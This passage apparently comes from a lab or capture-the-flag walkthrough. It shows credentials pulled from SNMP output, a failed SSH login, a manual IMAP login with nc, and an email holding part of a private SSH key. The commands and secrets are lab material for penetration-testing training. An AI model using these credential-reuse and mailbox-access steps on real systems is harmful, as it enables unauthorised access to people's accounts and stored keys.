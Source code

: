 Now that's a lot of information! Going through it slowly there is one line that sticks out to me.

```
iso.3.6.1.2.1.25.1.7.1.2.1.2.6.66.65.67.75.85.80 = STRING: "/opt/tom-recovery.sh"
iso.3.6.1.2.1.25.1.7.1.2.1.3.6.66.65.67.75.85.80 = STRING: "tom NMds732Js2761"
```

These could be some possible login credentials! Let' try to log into SSH!

```
$ ssh tom@10.129.73.237 
tom@10.129.73.237 : Permission denied (publickey).
```

Rats. Well, that didn't work. It appears the SSH server is configured to only disallow password authentication. This is a security standard. Let's try logging into the IMAP service instead.

```
$ nc -nv 10.129.73.237 143
(UNKNOWN) [10.129.73.237 ] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN] Dovecot (Ubuntu) ready.
tag login tom NMds732Js2761
tag OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
```

Logged in! Now let's try and dig around and find some emails. First we can find our inbox.

```
tag list "" *
* LIST (\HasNoChildren) "." Notes
* LIST (\HasNoChildren) "." Meetings
* LIST (\HasNoChildren \UnMarked) "." Important
* LIST (\HasNoChildren) "." INBOX
tag OK List completed (0.011 + 0.000 + 0.010 secs).
```

We can now try and list the emails inside.

```
tag select INBOX
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft \*)] Flags permitted.
* 1 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1636509064] UIDs valid
* OK [UIDNEXT 2] Predicted next UID
tag OK [READ-WRITE] Select completed (0.005 + 0.000 + 0.004 secs).
```

The line `* 1 EXISTS` tells us that we have one email in our inbox.

```
tag fetch 1 (BODY[]) 
* 1 FETCH (BODY[] {3661}
HELO dev.inlanefreight.htb
MAIL FROM:<tech@dev.inlanefreight.htb>
RCPT TO:<bob@inlanefreight.htb>
DATA
From: [Admin] <tech@inlanefreight.htb>
To: <tom@inlanefreight.htb>
Date: Wed, 10 Nov 2010 14:21:26 +0200
Subject: KEY

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA9snuYvJaB/QOnkaAs92nyBKypu73HMxyU9XWTS+UBbY3lVFH0t+F
+yuX+57Wo48pORqVAuMINrqxjxEPA7XMPR9XIsa60APplOSiQQqYreqEj6pjTj8wguR0Sd
```